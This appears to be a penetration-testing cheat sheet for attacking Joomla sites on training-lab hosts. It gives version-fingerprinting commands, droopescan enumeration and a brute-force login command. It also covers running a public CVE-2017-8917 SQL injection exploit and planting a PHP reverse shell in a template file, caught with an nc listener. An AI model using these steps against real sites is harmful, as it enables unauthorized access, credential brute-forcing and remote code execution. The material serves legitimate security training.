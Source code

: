 - `Admin page - /administrator`
- `Configuration files configuration.php | diagnostics.php | joomla.inc.php | config.inc.php`

### General Information
```bash
# Checking if Joomla
curl -s http://dev.inlanefreight.local/ | grep Joomla

# Check for robots.txt
http://dev.inlanefreight.local/robots.txt

# Check for README.txt
curl -s http://dev.inlanefreight.local/README.txt | head -n 5

# To find the Joomla version
http://10.10.8.222/language/en-GB/en-GB.xml
```

### Enumeration
```bash
sudo pip3 install droopescan
droopescan scan joomla --url http://dev.inlanefreight.local


# Brute Force Admin Login
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

### Joomla  version 3.7.0 (CVE-2017-8917 SQL injection)

1. Clone the Exploit Repository
https://github.com/stefanlucas/Exploit-Joomla

2. Run the Exploit Script
```
python3 joomblah.py  http://10.10.8.222/
```

### Reverse Shell

- Log in to the **Joomla admin dashboard**.
- Go to **Extensions > Templates** and select the active template i.e (**Protostar Details and Files**).
- Edit the `error.php` file and paste the **Pentestmonkey PHP reverse shell** code.
- Set up a listener on your attacker machine `rlwrap -f . -r nc -nvlp 4444`
- Now, to execute our payload, open a web browser and navigate to `http://<IP>/templates/protostar/error.php.`